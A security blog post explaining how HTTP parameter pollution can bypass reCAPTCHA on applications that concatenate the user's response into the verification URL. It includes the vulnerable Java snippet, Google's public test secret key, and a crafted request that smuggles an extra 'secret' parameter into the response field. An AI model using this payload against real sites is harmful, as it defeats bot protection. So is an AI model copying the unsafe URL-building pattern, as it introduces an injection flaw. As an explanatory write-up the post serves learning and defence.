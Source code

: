 ```yaml
---
layout: post
title: Leveraging HTTP Parameter Pollution to Bypass reCAPTCHA
tags: [Cyber News]
---
```


## Background

reCAPTCHA is a Google service that allows web applications to present some challenges to the users to protect the web application against bots. When the web application wants to challenge the user, Google provides a set of images and uses JavaScript to show them in the browser. The user then solves the CAPTCHA and an HTTP request is sent to the web application which looks something like:
```
POST /verify-recaptcha-response HTTP/1.1
Host: vulnerable-app.com

recaptcha-response={reCAPTCHA-generated-hash}
```

The application then verifies the response with a request to Google's reCAPTCHA API with a request shown below:
```
POST /recaptcha/api/siteverify HTTP/1.1
Content-Length: 458
Host: www.google.com
Content-Type: application/x-www-form-urlencoded

recaptcha-response={reCAPTCHA-generated-hash}&secret={application-secret}
```

In this request, the hash of the user's response `reCAPTCHA-generated-hash` is sent along with the verification secret for identifying the web application `application-secret`. And google verifies the request by the web application and if the response is correct, it generates an HTTP response which looks something like this:
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 90

{
  "success": true,
  "challenge_ts": "2018-01-29T17:58:36Z",
  "hostname": "..."
}
```

For testing new features on a new web application, Google has provided an automated of disabling reCAPTCHA verification. For this, the developers can use the hard-coded site and secret key as shown below:
```
Site key: 6LeIxAcTAAAAAJcZVRqyHh71UMIEGNQ_MXjiZKhI
Secret key: 6LeIxAcTAAAAAGG-vFI1TnRWxMZNFuojJ4WifJWe
```

This will come in handy for generating the payload.

## HTTP Parameter Pollution
Supplying multiple HTTP parameters with the same name might cause a web application to interpret values in an unanticipated way and this effect can then be exploited by an adversary to bypass some implemented security mechanism. Such an approach is called as HTTP Parameter Pollution.

## The Attack
IF the web application that needs to be bypassed is vulnerable to HTTP Parameter Pollution and looks something like the example shown below, then a carefully crafted request can be used to bypass reCAPTCHA.
```
private String sendPost(String CaptchaResponse, String Secret) throws Exception {

    String url = "https://www.google.com/recaptcha/api/siteverify"+"?response="+CaptchaResponse+"&secret="+Secret;
    URL obj = new URL(url);
    HttpsURLConnection con = (HttpsURLConnection) obj.openConnection();
```

The exploit can be constructed as shown below:
```
POST /verify-recaptcha-response HTTP/1.1
Host: vulnerable-app.com

recaptcha-response=anything%26secret%3d6LeIxAcTAAAAAGG-vFI1TnRWxMZNFuojJ4WifJWe
```

Here we can see that the attacker has carefully constructed the reCAPTCHA response in such a way that the `anything` corresponds to a placeholder, `%26` is an URL encoded ampersand character, `secret` represents the parameter that needs to be injected, `%3d` is an URL encoded equals sign and `6Le...JWe` is the key that disables reCAPTCHA for any web application. Another thing to note here is that Google's reCAPTCHA API only looks at the first `secret` parameter value and ignores any other secret value that follows. So, when the attacker sends a specific crafted request to the web application, it sends the following HTTP request to the reCAPTCHA API.
```
POST /recaptcha/api/siteverify HTTP/1.1
Host: www.google.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Python-urllib/2.7

recaptcha-response=anything&secret=6LeIxAcTAAAAAGG-vFI1TnRWxMZNFuojJ4WifJWe&secret=6LeYIbsSAAAAAJezaIq3Ft_hSTo0YtyeFG-JgRtu
```

As specified above, only the first secret is used by the reCAPTCHA API and the following response is sent every time.
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 90

{
  "success": true,
  "challenge_ts": "2018-01-29T17:58:36Z",
  "hostname": "..."
}
```

This response will be processed by the web application and the user is always granted access to the web application.

---

## References
\[1\] Riancho A., "reCAPTCHA Bypass via HTTP Parameter Pollution".

[1]: https://andresriancho.com/recaptcha-bypass-via-http-parameter-pollution/ "reCAPTCHA Bypass via HTTP Parameter Pollution"
---
